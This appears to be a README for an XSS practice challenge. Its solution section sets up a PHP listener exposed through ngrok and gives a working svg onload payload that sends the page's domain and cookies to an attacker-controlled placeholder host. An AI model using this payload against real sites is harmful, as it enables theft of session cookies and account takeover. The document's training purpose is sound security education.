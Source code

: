 Vulnerable html page contains cookie.
Let's Steal the cookie with evil.php

If you can't solve, look solution 


Are you build your evil payload ?
Let's try ->  https://cyb3rsalih.github.io/xss-challenge/



Please let me know if any problem... PR's wellcome :)


======= SOLUTION ======= 

1- Create your local php server in folder where evil.php 
` php -S localhost:1234 `

2- Connect your local server to internet
` ngrok http 1234 `

3- Your address is something like this
` http://xxxxxxxxx.ngrok.io `


4- Now add your XSS payload to vulnerable input.
`
<svg onload="function a(){var url = `http://xxxxxxxxx.ngrok.io/evil.php?domain=${document.domain}&cookie=${document.cookie}`;var r=new XMLHttpRequest();r.open('GET', url, true);r.send();};a();">
`